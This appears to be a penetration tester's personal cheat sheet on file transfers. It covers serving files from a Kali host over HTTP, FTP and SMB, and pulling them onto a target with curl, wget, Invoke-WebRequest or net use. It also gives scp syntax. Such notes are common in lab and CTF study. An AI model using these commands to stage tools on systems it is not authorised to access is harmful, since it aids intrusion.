 ```yaml
---
creation date: December 19th 2022
last modified date: December 19th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[File Transfers]]  
___

## Description:  

### http
host webpage on Kali
`python3 -m http.server 80`

Get the file with:
```
curl http://192.168.19.55/test.c --output test.c

wget 172.16.0.109/test

Invoke-WebRequest http://10.10.14.45:1234/required_tool -O tool


```

### FTP server
`sudo python3 -m pyftpdlib -p21 -w`

### SMB server
```
On kali:

sudo smbserver.py share `pwd`

On Windows:

net use z: \\10.10.14.10\share

```

### scp
```
Remote Host to Local (push):
scp username@from_host:file.txt /local/directory/

Local to Remote Host (pull):
scp file.txt username@to_host:/remote/directory/

Use -r for directories

Remote to Remote:
scp username@from_host:/remote/directory/file.txt username@to_host:/remote/directory/
```

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 19th 2022 (01:18 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
